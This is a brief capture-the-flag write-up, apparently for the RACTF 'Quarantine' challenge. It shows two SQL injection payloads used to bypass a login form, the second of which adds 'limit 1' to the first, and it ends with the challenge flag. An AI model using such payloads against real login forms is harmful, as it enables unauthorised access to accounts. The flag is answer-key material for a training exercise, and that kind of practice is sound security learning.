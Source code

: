 # Quarantine

First I tried 

`' or 1=1; -- -` to bypass login, 

and it said that I was trying to login as multiple users. 

I simply added `'limit 1'` and got in.
`' or 1=1 limit 1; -- - `

#### ractf{Y0u_B3tt3r_N0t_h4v3_us3d_sqlm4p}
